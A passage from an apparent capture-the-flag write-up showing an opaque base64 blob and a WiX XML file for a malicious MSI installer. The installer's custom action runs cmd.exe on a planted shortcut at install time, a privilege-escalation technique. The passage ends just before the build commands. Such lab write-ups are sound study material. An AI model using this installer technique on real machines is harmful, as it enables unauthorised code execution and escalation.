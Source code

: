 ~~~
1C5P3n9yiI+CqIFkAoKP+cSGp2+c5S9vGbo0LaeZqwR+Mv5V5JuuJlCm3w5bSJx7
HTktPfs8a0q/KKfa2hL/ShudaPN1qu33aE+4oXIAdUswaYbngjRiR/pCz+LBseQf
NZbM6tlWLCa2UpA/Wc+NWNkeS47hMm9GGne7641t7hFLt3MY7aBDuJ9auTMXoPgs
zkRmk7GQFpB8cM2dcZKSZIFgfu9cfUwrnXbTQC2BzNdRgmJGHW+KXCFns7ve/Cfh
UUSEOwv+aZwivMWic+lUA3MbVE73k5SrWWAa8HfhyRGeVkClWynddhknlufRz3VT
owT8YoHrpOey+EJ48NX5kbb/lIL0qTzd4DtWbLDSI1oW+Cj3hiuQ1unQU7wF4Ukf
7jv7zghW6Bp6LoUBFd9Dxw0Irs/aVRPyLWKv1Smk7rdiZ+Ym6/upHuLBaak4L/rM
qvzeT+hoV9JkdOckXA54tEf0SYoamH2+mFwSgmenHjdHEPjKOC1FJOGacC/bKB4z
iw0AoLPAwoK+ld57HMo1mexAEfvwua3rT6WB1pHtuKszTcsw2llLlAk3C2OU8sJS
+XPjsy4564WZZJurWx10vlhPUpdKTGbF/QV+5b02FQiyR5HkWBtqKHRVyEdZB0l5
VFFUXWZBzYc//AqSfPZg19VcrGS2B8rU6oK/5dA4djw9oeYzpQDD5q6z/GlGrLCt
iwGht0fcUveev2+20QfAHkGMmK1l9ymFdABCxLxQ3RbsaRwFffzwIO7hICSjIPwP
8Lfl9SbLP1TqUhfmcWhDPNgBjvgI2HuiXOTOjqgo+ML8AP4t5ctAOV3idNqGA+8o
QfqbZIwXW8t3DhRMOQ+y+7kZAG+0Tl4W+64Z+WbpV5NQ4Lh5zSDmy0H3NookmLbM
k/+6gRKfzGSnvlxR8+yngqaJoCYziE/+F3k293lHyGz7swQ+/Pgn4VnKXJPJTHwM
Gh7npszdDimChYLZhdo8VKSPdIe1aBcwzlxWhKe8zU39ktBCVB6COH+X2rRlNXiv
vvvesEbLeD0y2vFxjWxCT1IcNMSe+NWLrRLVV1FlLtjTp+uIk8158Et7Mi5/i2h3
ic+SiTxnQceaA9VJHLXEp3yO7hKMEpH9amU41EtFVStmiRoO3S3Bv3gGmZNKxZGJ
aocRCf2Rc0AjRB2xbshYFx4hCpDPdXCZRzDIjJjxQEfl1rLxQqA5rz3/3K8SyJSL
S79t8hzxlqwZvuMkL8LJzJi4m9Bt9sc2IxMdka4oAHAvKNpoOi6fZKINibMP69xK
g7lubG3/Aft9LYH2DpSSt00WyPIqFIscvOqkzrBlJHW4Dj65gsdsBqKIvb0hdfpf
myOjgtyxIuox7xHZOTg0TjoOnw1oMAdlBLaDfRz91TDwdd5N6T83QXLy3gY=
{% endhighlight %}

#### Create a msi file
We can use <a href="http://wixtoolset.org/">Wix Toolset</a> to create a new msi file.<br>
At first, we have to prepare one xml which describes the msi file we create.
{% highlight shell %}
root@kali:~# cat ethereal.wxs 
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\vs-mod.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
{% endhighlight %}

Then, we have to execute following commands.<br>
"ethereal.msi" is in a directory "C:\Program Files\WiX Toolset v3.11\bin".
{% highlight shell %}
~~~